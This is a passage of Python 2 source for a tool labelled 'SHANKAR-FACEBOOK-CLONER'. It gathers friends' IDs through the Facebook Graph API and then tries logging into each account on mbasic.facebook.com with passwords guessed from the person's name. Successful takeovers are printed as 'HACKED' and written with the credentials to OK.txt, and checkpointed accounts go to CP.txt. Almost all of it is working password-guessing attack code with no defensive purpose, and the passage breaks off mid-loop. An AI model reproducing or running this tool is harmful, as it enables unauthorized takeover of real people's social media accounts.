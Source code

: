         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rx == '0':
        menu()
    else:
        print ''
        print '\tSELECT VALID OPTION'
        print ''
        choice()
    print '\x1b[1;97m[=] TOTAL IDS :\x1b[1;92m ' + str(len(id))
    print '\x1b[1;97m[=] THE PROCESS HAS STARTED'
    print '\x1b[1;97m======================================================='
    print '\x1b[1;93m     SHANKAR-FACEBOOK-CLONER'
    print '\x1b[1;97m=======================================================-'
    
    def main(arg):
        user = arg
        (uid, name) = user.split('|')
        sharagent = random.choice(sua)
        session = requests.Session()
        session.headers.update({
            'Host': 'mbasic.facebook.com',
            'cache-control': 'max-age=0',
            'upgrade-insecure-requests': '1',
            'user-agent': sharagent,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'accept-encoding': 'gzip, deflate',
            'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7' })
        host = 'https://mbasic.facebook.com'
        
        try:
            ps = name
            data = session.post('https://mbasic.facebook.com/login.php', data = {
                'email': uid,
                'pass': ps,
                'login': 'submit' })
            sp = data.content
            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps + '\x1b[0;97m'
                ok = open('OK.txt', 'a')
                ok.write(uid + '|' + ps + '\n')
                ok.close()
                oks.append(uid + ps)
            elif 'checkpoint' in sp:
                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps + '\x1b[0;97m'
                cp = open('CP.txt', 'a')
                cp.write(uid + '|' + ps + '\n')
                cp.close()
                cps.append(uid + ps)
            else:
                ps2 = name.lower().split(' ')[0] + ' ' + name.lower().split(' ')[1]
                data = session.post('https://mbasic.facebook.com/login.php', data = {
                    'email': uid,
                    'pass': ps2,
                    'login': 'submit' })
                sp = data.content
                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    ok = open('OK.txt', 'a')